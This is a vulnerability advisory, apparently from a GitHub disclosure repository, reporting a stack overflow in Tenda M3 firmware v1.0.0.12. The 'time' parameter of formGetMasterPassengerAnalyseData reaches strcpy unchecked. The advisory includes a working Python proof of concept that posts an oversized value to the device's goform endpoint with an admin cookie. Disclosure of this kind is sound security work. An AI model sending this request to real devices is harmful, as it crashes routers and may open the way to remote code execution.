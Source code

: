 # Tenda M3 formGetMasterPassengerAnalyseData
### Overview
vendor: Tenda

product: M3

version: v1.0.0.12

type: Stack Overflow
### Vulnerability Description
Tenda M3 v1.0.0.12 were discovered to contain a stack overflow via the time parameter in the formGetMasterPassengerAnalyseData function.

### Vulnerability details
In function formGetMasterPassengerAnalyseData line 87, it reads in a user-provided parameter `time`. The variable `src` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/2.png)

![](images/3.png)

### POC
```python
import requests

data = {
    "time": "a"*0x2000
}
cookies = {
    "user": "admin"
}
res = requests.post("http://192.168.0.1/goform/getMasterPassengerAnalyseData", data=data, cookies=cookies)
print(res.content)
```
